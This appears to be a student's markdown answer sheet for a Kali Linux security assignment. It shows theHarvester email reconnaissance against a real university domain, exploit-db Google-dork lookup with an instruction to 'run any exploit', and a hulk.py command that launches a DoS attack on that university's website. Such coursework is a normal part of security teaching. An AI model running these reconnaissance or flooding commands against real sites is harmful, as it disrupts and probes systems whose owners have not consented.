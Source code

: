 # A part questions(7 points)
Another parts [part B](part3.md) [part C](part4.md)
 ## Find email addresses which belong to some organization
 ### Solution 1
 ```
 kali@kali:~$ theHarvester -d [domain name] -b [sources] -l [number of results]
 ```
 - Example
 ```
 kali@kali:~$ theHarvester -d sdu.edu.kz -b all -l 200
 ```
 ### Solution 2
 Go to [hunter.io](https://hunter.io) and search
 
 
## Show how to find google dork for "pages containing login"
1. Go to [Exploit database](https://exploit-db.com/google-hacking-database?)
2. Press Filters button (it's orange)
3. Select `Pages Containing Login Portals` in `Category` drop down menu
4. Run any exploit (no matter if it works) 
 
 
## Perform DOS attack on sdu.edu.kz
```
kali@kali:~$ python hulk.py https://sdu.edu.kz
```
## Wireshark: show any packet and analyze it
